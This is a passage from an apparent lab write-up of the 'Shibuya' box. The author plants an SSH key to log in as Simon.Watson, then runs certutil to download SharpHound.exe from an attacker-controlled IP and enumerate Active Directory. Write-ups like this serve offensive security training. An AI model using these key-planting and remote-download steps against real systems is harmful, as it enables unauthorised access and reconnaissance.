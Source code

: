 Now to get a shell as Simon.Watson rdp is erroring out and we dont have winrm access to this box.

What we do have is SSH access to this box.

I will put my ssh public key inside the simon’s directory and then ssh into it as him.

![image.png](/assets/images/Shibuya_VL/image%2010.png)

Now I will SSH into the box.

```bash
ssh -i /root/.ssh/id_ed25519 simon.watson@shibuya.vl
```

![image.png](/assets/images/Shibuya_VL/image%2011.png)

We are in!

### Bloodhound

Now lets transfer the sharphound.exe, a collector to dump the ldap data.

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.69:9000/SharpHound.exe"
```

![Screenshot_20251030_211233.png](/assets/images/Shibuya_VL/Screenshot_20251030_211233.png)
